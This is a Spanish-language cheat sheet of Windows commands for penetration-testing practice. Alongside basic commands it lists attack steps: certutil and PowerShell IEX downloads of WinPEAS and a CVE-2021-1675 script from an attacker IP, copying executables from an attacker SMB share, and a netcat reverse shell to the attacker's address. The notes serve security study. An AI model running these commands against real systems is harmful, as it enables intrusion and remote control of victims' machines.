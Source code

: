 # Comandos Windows ❮❯

Tags: #Windows #Comandos

```bash
C:\Windows\Temp                              # Directorios con capacidad de escritura en Windows
```


```bash
❯ cls                                        # Nos ayuda a limpiar la pantalla
```

```bash
❯ ipconfig                                   # Nos muestra las interfaces y las direcciones IP
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```

```bash
❯ net user                                   # Miramos todos los usuarios existentes y sus grupos
❯ net user <User>                            # Miramos el grupo de un usuario especifico
```

```bash
❯ dir                                        # Listamos el contenido del directorio
❯ dir /r /s ❮File.txt❯                       # Buscamos de forma recursiva el string .txt
```

```bash
❯ type ❮File❯                                # Nos muestra el contenido del archivo
```

```bash
❯ upload /home/omar/Documet/HTB/nc.exe       # Subimos el archivo Netcat a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
❯ upload /home/omar/Downloads/Firefox/winpeasx64.exe # Subimos el archivo WinPEAS a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
❯ certutil.exe -f -urlcache -split http://<IP>/winPeas.exe winPeas.exe           # Subimos el archivo WinPEAS a la maquina victima con la IP de atacante
❯ IEX(New-Object Net.WebClient).downloadString(‘http://<IP>/CVE-2021-1675.ps1’)  # Con este comando en la maquina victima podemos subir el script en powershell que esta cargado en nuestro servidor, colocando la IP de atacante y el script .ps1
```

```bash
❯ copy \❮IP❯\\smbFolder\\❮File.exe❯ ❮File.exe❯    # Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante

	# IP = IP de atacante
	# smbFolder = Nombre del folder del recurso compartido
	# File.exe = Nombre del archivo .exe a copiar de la maquina de atacante
	# File.exe = Nombre del archivo .exe en el cual se depositara el archivo copiado
```

❯ **nc.exe -e cmd ❮IP Atacante❯ ❮Port❯** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
❯ **netstat -nat** Miramos los puertos abiertos
❯ **services** Para ver los servicios que estan corriendo en Windows 

